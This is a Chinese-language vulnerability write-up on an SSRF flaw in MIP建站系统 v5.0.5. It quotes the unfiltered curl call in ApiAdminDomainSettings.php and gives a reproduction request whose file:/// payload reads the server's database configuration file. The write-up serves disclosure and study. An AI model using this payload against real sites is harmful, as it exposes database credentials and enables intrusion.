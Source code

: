# MIP建站系统 v5.0.5 SSRF漏洞

### 一、漏洞简介

### 二、漏洞影响

MIP建站系统 v5.0.5

### 三、复现过程

**漏洞分析**

进行简单的漏洞分析。

根据漏洞定位代码文件：app/setting/controller/ApiAdminDomainSettings.php

受影响代码：


```php
public function urlPost(Request $request) {
        $postAddress = input('post.postAddress');
        if (!$postAddress) {
            return jsonError('请先去设置推送的接口');
        }
        $api = trim($postAddress);
        if (strpos($api,'type=realtime') !== false || strpos($api,'type=batch') !== false) {
            if (!config('siteInfo')['guanfanghaoStatus']) {
                return jsonError('检测到您未开启熊掌号，请开启后再推送');
            }
        }
        $url = input('post.url');
        $id = input('post.id');
        if (!$url) {
            return jsonError('没有检测到你推送的页面地址');
        }   
        $urls[] = $url;
        $ch = curl_init();
        $options =  array(
            CURLOPT_URL => $api,
            CURLOPT_POST => true,
            CURLOPT_RETURNTRANSFER => true,
            CURLOPT_POSTFIELDS => implode("\n", $urls),
            CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
        );
        curl_setopt_array($ch, $options);
        $result = curl_exec($ch);
```

流程分析：


```php
1、$ postAddress = input('post.postAddress');  
    //POST方法将$postAddress参数传入

2、$api = trim($postAddress);    
$options =  array(
            CURLOPT_URL => $api,
            CURLOPT_POST => true,
            CURLOPT_RETURNTRANSFER => true,
            CURLOPT_POSTFIELDS => implode("\n", $urls),
            CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
        );
        curl_setopt_array($ch, $options); 
    //赋予$api参数，一直至$ch，未进行任何过滤
3、$result = curl_exec($ch);    
    //最后执行

```

### 漏洞复现

第一步，登陆该后台：

第二步，访问所受影响的代码文件：


```bash
http://url/index.php？s=/setting/ApiAdminDomainSettings/urlPost；
POST方法进行请求，payload：  
postAddress=file:///C:\phpStudy\PHPTutorial\WWW\app\database.php&url=test&id=test
```

![](images/15891856878811.png)


参考链接

https://xz.aliyun.com/t/7431